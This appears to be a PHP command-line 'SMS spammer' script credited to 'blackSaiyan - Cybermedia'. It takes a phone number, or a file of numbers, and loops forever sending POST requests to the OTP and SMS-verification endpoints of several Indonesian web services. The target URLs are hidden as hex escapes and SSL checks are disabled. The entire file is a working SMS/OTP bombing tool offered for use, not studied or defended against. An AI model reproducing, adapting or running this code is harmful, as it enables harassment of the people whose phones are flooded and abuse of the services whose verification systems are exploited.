 #!/usr/bin/env php

#Dilarang copyright blackSaiyan - Cybermedia 2018 15 08 12:30

<?php

if(strtolower(substr(PHP_OS, 0, 3)) == 'win') {

$R = "";

$RR = "";

$G = "";

$GG = "";

$B = "";

$BB = "";

$Y = "";

$YY = "";

$X = "";

$ua = 'Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:53.0) Gecko/20100101 Firefox/53.0';

} else {

$R = "\e[91m";

$RR = "\e[91;7m";

$G = "\e[92m";

$GG = "\e[92;7m";

$B = "\e[36m";

$BB = "\e[36;7m";

$Y = "\e[93m";

$YY = "\e[93;7m";

$X = "\e[0m";

$ua = 'Mozilla/5.0 (Linux; Android 5.1.1; Andromax A16C3H Build/LMY47V) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/63.0.3239.111 Mobile Safari/537.36';

system('clear');

}

if(function_exists('pcntl_signal')) {

	declare(ticks = 1);

	function signal_handler($signal) {

		global $Y,$X;

		switch($signal) {

		case SIGTERM:

		die($Y."\n====================[] blackSaiyan []=====(√√√)>".$X."\n");

		case SIGKILL:

		die($Y."\n====================[] blackSaiyan []=====(√√)>".$X."\n");

		case SIGINT:

		die($Y."\n====================[] blackSaiyan []=====(√)>".$X."\n");

		}

	}

	pcntl_signal(SIGTERM, "signal_handler");

	pcntl_signal(SIGINT, "signal_handler");

}

function post_data($url,$data) {

	global $ua;

	$ch=curl_init($url);

	curl_setopt($ch, CURLOPT_RETURNTRANSFER, 1);

	curl_setopt($ch, CURLOPT_USERAGENT, $ua);

	curl_setopt($ch, CURLOPT_POSTFIELDS, $data);

	curl_setopt($ch, CURLOPT_SSL_VERIFYHOST, 0);

	curl_setopt($ch, CURLOPT_SSL_VERIFYPEER, 0);

	return curl_exec($ch);

	curl_close($ch);

	}

	echo $Y.

"

___ ____ _____

|_ _/ ___|_ _|__ _ __ __ _ _ __ ___

| | | | |/ __| '_ \ / _` | '_ ` _ \

| | |___ | |\__ \ |_) | (_| | | | | | |

|___\____| |_||___/ .__/ \__,_|_| |_| |_|

|_|

";

echo $G."\n========[]blackSaiyan SPAMER[]========".$X."\n";

echo $YY. $B."\n::###############################################";

echo $R."\n::############[WELCOME:MY:CRIB]##################";

echo $YY."\n::#: #";

echo $BB."\n::#:Author ::[blackSaiyan] #";

echo $B."\n::#:Instagram ::[@null:]#";

echo $RR."\n::#:Github ::[http://github.com/blacksaiyan1001:] #";

echo $R."\n::#:Facebook ::[null:] #";

echo $G."\n::#:YouTube ::[blackSaiyan GAMING:] #";

echo $GG."\n::#:Team ::[blackSaiyan - Cybermedia] #";

echo $YY."\n::#: #";

echo $R."\n::###########[THANKS:YOU:FOR:WATCHING]###########";

echo $B."\n::###############################################".$G.$X."\n\n";

isset($argv[1]) OR die($RR."[!] []== Input Namber plish ==[] [!]\n".$X);

if(is_numeric($argv[1])) {

	echo "[]Prossesing Spam SmS[] #".$G.$argv[1].$X."\n";

	post_data("\x68\x74\x74\x70\x73\x3a\x2f\x2f\x77\x77\x77\x2e\x74\x6f\x6b\x6f\x63\x61\x73\x68\x2e\x63\x6f\x6d\x2f\x6f\x61\x75\x74\x68\x2f\x6f\x74\x70","msisdn=".$argv[1]."&accept=call");

	while(1) {

		echo "[]UCOK Sending Massage To[] # ".$G.$argv[1].$X."\n";	

		post_data("\x68\x74\x74\x70\x3a\x2f\x2f\x73\x63\x2e\x6a\x64\x2e\x69\x64\x2f\x70\x68\x6f\x6e\x65\x2f\x73\x65\x6e\x64\x50\x68\x6f\x6e\x65\x53\x6d\x73","phone=".$argv[1]."&smsType=1");

		post_data("\x68\x74\x74\x70\x73\x3a\x2f\x2f\x77\x77\x77\x2e\x70\x68\x64\x2e\x63\x6f\x2e\x69\x64\x2f\x65\x6e\x2f\x75\x73\x65\x72\x73\x2f\x73\x65\x6e\x64\x4f\x54\x50","phone_number=".$argv[1]);

	}

}

if(!file_exists($argv[1])) {

	die($RR."[!] File Not Exists [!]".$X."\n");

}

$argv[1]=explode("\n",file_get_contents($argv[1]));

$argv[1]=str_replace(' ','',$argv[1]);

foreach($argv[1] as $argv[2]):

echo "[]Prossessing spam sms[] #".$G.$argv[2].$X."\n";

	post_data("\x68\x74\x74\x70\x73\x3a\x2f\x2f\x77\x77\x77\x2e\x74\x6f\x6b\x6f\x63\x61\x73\x68\x2e\x63\x6f\x6d\x2f\x6f\x61\x75\x74\x68\x2f\x6f\x74\x70","msisdn=".$argv[2]."&accept=call");

endforeach;

while(1) {

foreach($argv[1] as $argv[2]):

echo "[]UCOK Sending Massage To[] # ".$G.$argv[2].$X."\n";

	post_data("\x68\x74\x74\x70\x3a\x2f\x2f\x73\x63\x2e\x6a\x64\x2e\x69\x64\x2f\x70\x68\x6f\x6e\x65\x2f\x73\x65\x6e\x64\x50\x68\x6f\x6e\x65\x53\x6d\x73","phone=".$argv[2]."&smsType=1");

	post_data("\x68\x74\x74\x70\x73\x3a\x2f\x2f\x77\x77\x77\x2e\x70\x68\x64\x2e\x63\x6f\x2e\x69\x64\x2f\x65\x6e\x2f\x75\x73\x65\x72\x73\x2f\x73\x65\x6e\x64\x4f\x54\x50","phone_number=".$argv[2]);

endforeach;

}
